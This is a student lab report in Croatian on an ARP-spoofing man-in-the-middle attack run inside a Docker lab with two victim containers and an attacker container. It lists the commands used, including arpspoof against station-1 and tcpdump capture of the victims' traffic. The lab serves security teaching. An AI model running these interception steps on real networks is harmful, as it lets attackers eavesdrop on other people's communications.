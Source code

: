 # Izvještaj laboratorijskih vježbi

# 1. Laboratorijska vježba

11.10.2021

## Zadatak

Realizirati man in the middle napad iskorištavanjem ranjivosti ARP protokola. Student će testirati napad u virtualiziranoj Docker mreži (Docker container networking) koju čine 3 virtualizirana Docker računala (eng. container): dvije žrtve **station-1** i **station-2** te napadač **evil-station**.

### Kloniranje GitHub repozitorija

```bash
git clone https://github.com/mcagalj/SRP-2021-22
```

### Ulazak u direktorij

```bash
cd SRP-2021-22/arp-spoofing/
```

### Running bash scripts

```
./start.sh
./stop.sh
```

### Pokrećanje iteraktivnog shella u station-1 kontenjeru

```
docker exec -it station-1 bash
```

### Provjera nalazi li se station-2 na istoj mreži

```
ping station-2
```

### Pokrećanje iteraktivnog shella u station-2 kontenjeru

```
docker exec -it station-2 bash
```

### Pomoću netcat-a otvaramo server na portu 9000 na kontenjeru station-1

```
netcat -lp 9000
```

### Pomoću netcat-a otvaramo client na hostname-u station-1 9000 na kontenjeru station-2

```
netcat station-1 9000
```

### Pokrećanje iteraktivnog shella u evil-station kontenjeru

```
docker exec -it evil-station bash
```

### Pokrećemo arpspoof u kontenjeru evil-station

```
arpspoof -t station-1 station-2
```

### U kontenjeru evil-station pokrećemo tcpdump i pratimo promet

```
tcpdump
```

```
tcpdump -X host station-1 and not arp
```

### Prekidamo napad

```
echo 0 > /proc/sys/net/ipv4/ip_forward
```

![Untitled](Izvjes%CC%8Ctaj%20laboratorijskih%20vjez%CC%8Cbi%207f8db425248d48e9bf2d2fa1cffd0156/Untitled.png)